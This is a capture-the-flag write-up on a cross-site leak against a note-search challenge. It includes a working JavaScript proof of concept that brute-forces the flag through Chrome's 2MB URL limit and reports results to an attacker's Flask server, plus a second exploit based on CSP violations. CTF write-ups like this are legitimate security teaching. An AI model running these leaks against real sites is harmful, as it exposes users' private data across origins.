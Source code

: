 ```yaml
---
description: XS leak through cross-origin redirects — intended and unintended
---
```


# secrets

## Overview

> A secure and secret note storage system is a platform or application designed to keep your confidential notes safe from unauthorized access.

The challenge revolved around searching contents of secret notes.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.46.57 PM.png" alt=""><figcaption></figcaption></figure>

Let's examine the behaviour of the search feature.

When searching for a note through `/search?query=<query>`, there are two possible responses:

1. The note was found.

In this case, a 301 redirect is issued to `http://results.wtl.pw/results?ids=<note UUIDs>&query=<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:48:10 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 357
Connection: close
Location: http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&query=test
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test">http://results.wtl.pw/results?ids=92a05671-8e1a-468e-9b7f-c52789e77d4e&amp;query=test</a>. If not, click the link.
```

It is important to note that this is a redirect to a _different_ subdomain. Searching on **`secrets`**`.wtl.pw` redirects to **`results`**`.wtl.pw`.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.52.17 PM.png" alt=""><figcaption></figcaption></figure>

2. The note was not found.

In this case, a 301 redirect is issued to `http://secrets.wtl.pw/#<query>`.

```http
HTTP/1.1 301 MOVED PERMANENTLY
Server: nginx/1.23.3
Date: Sun, 19 Feb 2023 13:51:05 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 241
Connection: close
Location: http://secrets.wtl.pw/#asdf
Vary: Cookie

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://secrets.wtl.pw/#asdf">http://secrets.wtl.pw/#asdf</a>. If not, click the link.

```

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 9.51.58 PM.png" alt=""><figcaption></figcaption></figure>

## Unintended Solution — Chrome's 2MB URL Limit

One thing that might be immediately noticeable is that if the note was found, then the resulting URL length is extended considerably by the `ids` parameter.

A [well-known technique](https://xsleaks.dev/docs/attacks/navigations/#inflation) in these kinds of scenarios is hitting the server's maximum URL limit, and detecting error status codes. However, these rely on `SameSite=None` cookies for the [error event detection](https://xsleaks.dev/docs/attacks/error-events/).&#x20;

The challenge had `SameSite=Lax` cookies, so the primitive for any XS-Leak attack is a top-level navigation (e.g. through `window.open`). There is no way to detect server response codes in a cross-origin window reference, so I started looking for other ways to detect the URL inflation.

We might not be able to detect a _server-side_ URL length error, but can we somehow detect a _client-side_ one? According to [Chromium documentation](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url\_display\_guidelines/url\_display\_guidelines.md#URL-Length), Chrome's maximum URL length is 2MB.

> In general, the _web platform_ does not have limits on the length of URLs (although 2^31 is a common limit). _Chrome_ limits URLs to a maximum length of **2MB** for practical reasons and to avoid causing denial-of-service problems in inter-process communication.

This is where it gets interesting! Because this is a _client-side_ constraint, and URL fragments persist on redirects, we can open `/search?query=<query>#AAA...[2MB]...AAA` to hit the length limit.

So, what happens when the URL limit is exceeded?

Apparently, it shows an `about:blank#blocked` page.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.38.58 PM.png" alt=""><figcaption></figcaption></figure>

As you might expect, trying to access the `origin` (or any other sensitive information) of a cross-origin window reference would raise an exception.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.43.00 PM.png" alt=""><figcaption></figcaption></figure>

However, when opening a page that errors out due to the 2MB constraint, the window's `origin` remains that of the parent.

As an experiment, let's try a successful query.

```javascript
let url = "http://secrets.wtl.pw/search?query=test#"
let w = window.open(url + "A".repeat(2 * 1024 * 1024 - url.length - 1))
```

The length of the opened URL&#x20;

```
http://secrets.wtl.pw/search?query=test#AAA...AAA
```

is exactly 2MB - 1, so the initial search URL is just under the length limit.

When the window is redirected to

```
http://results.wtl.pw/results?ids=<note UUIDs>&query=test#AAA...AAA
```

the URL is extended and the length limit is hit. The window becomes an `about:blank` page and its `origin` remains that of the parent.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.16 PM.png" alt=""><figcaption></figcaption></figure>

Now, if we try the same thing on an unsuccessful query, the final redirected URL falls short of the 2MB limit and the window's `origin` is no longer accessible.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 10.54.42 PM.png" alt=""><figcaption></figcaption></figure>

This can be extended to the following PoC, which brute-forces a character of the flag.

```markup
<html>
<body></body>
<script>
    (async () => {

        const curr = "http://secrets.wtl.pw/search?query=HackTM{"

        const leak = async (char) => {
            
            fetch("/?try=" + char)
            let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))
            
            const check = async () => {
                try {
                    w.origin
                } catch {
                    fetch("/?nope=" + char)
                    return
                }
                setTimeout(check, 100)
            }
            check()
        }

        const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

        for (let i = 0; i < CHARSET.length; i++) {
            leak(CHARSET[i])
            await new Promise(resolve => setTimeout(resolve, 50))
        }
    })()

</script>
</html>
```

Because this PoC only tells us what is definitely _not_ the flag (by detecting the `w.origin` errors), we can implement a backend server to quickly find what _is_ the flag by eliminating the unsuccessful queries from the charset.

```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
    global chars
    
    nope = request.args.get('nope', '')
    if nope:
        chars.append(nope)

    remaining = [c for c in CHARSET if c not in chars]

    print("Remaining: {}".format(remaining))

    return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
    return open('exploit.html', 'r').read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

The downside of this method is that the long URLs can cause significant lag on the server's admin bot. This _may or may not_ have made the bot extremely unstable for a period of time... oops!

## Intended Solution — CSP Violation

It turns out that there is a much faster and less laggy way of detecting the redirects. Because the redirect is to a different origin, we can use [CSP violations](https://xsleaks.dev/docs/attacks/navigations/#cross-origin-redirects) as an oracle.&#x20;

```markup
<meta http-equiv="Content-Security-Policy" content="form-action http://secrets.wtl.pw">
<form action="http://secrets.wtl.pw/search" method="get">
    <input type="text" name="query" value="test">
</form>

<script>
    document.addEventListener('securitypolicyviolation', () => {
        console.log("CSP violation!")
    });
    document.forms[0].submit();
</script>
```

Because the query was successful, the window attempted to load `http://results.wtl.pw`. But since our CSP dictates that forms can only be submitted to `http://secrets.wtl.pw`, the request was blocked. We can detect this through the `securitypolicyviolation` event listener.

<figure><img src="../../.gitbook/assets/Screenshot 2023-02-19 at 11.03.59 PM.png" alt=""><figcaption></figcaption></figure>
